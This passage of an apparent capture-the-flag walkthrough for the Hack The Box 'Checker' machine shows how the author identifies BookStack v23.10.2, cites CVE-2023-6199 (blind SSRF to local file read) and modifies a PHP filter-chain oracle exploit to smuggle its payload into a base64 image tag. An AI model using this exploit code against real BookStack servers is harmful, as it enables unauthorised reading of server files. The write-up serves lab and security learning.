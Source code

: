 From the source code of `BookStack`, we can find the version of this service
```
 <!-- Social Cards Meta -->
    <meta property="og:title" content="BookStack">
    <meta property="og:url" content="http://checker.htb">
    
    <!-- Styles -->
    <link rel="stylesheet" href="[http://checker.htb/dist/styles.css?version=v23.10.2](view-source:http://checker.htb/dist/styles.css?version=v23.10.2)">
```
`BookStack v23.10.2`

# CVE-2023-6199
Then we can search about this version of service, and find something vulnerable
`LFR via SSRF in BookStack: Beware of insecure-by-default libraries!`
There is a blog to explain the detailed process
```
https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack
https://github.com/synacktiv/php_filter_chains_oracle_exploit.git
```
And we can try to use this script to get the result

I’ll have to modify the script to so that it sends the URL in a `base64-encoded` image tag.
To make this work, I’ll need to take the filter_chain output, `base64-encode` it, and put it into an image tag. Let's importing `b64decode` at the top of the file, and then add a line
```
 from base64 import b64encode

 filter_chain = f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'
        # DEBUG print(filter_chain)
        filter_chain = f"<img src='data:image/png;base64,{b64encode(filter_chain.encode()).decode()}'/>"
        merged_data = self.parse_parameter(filter_chain)
```

Then let's come to create a new book and a new page and use `burpsuite` to catch the request
![](images/Pasted%20image%2020250728135400.png)
Wait for a few seconds, then we can get the request: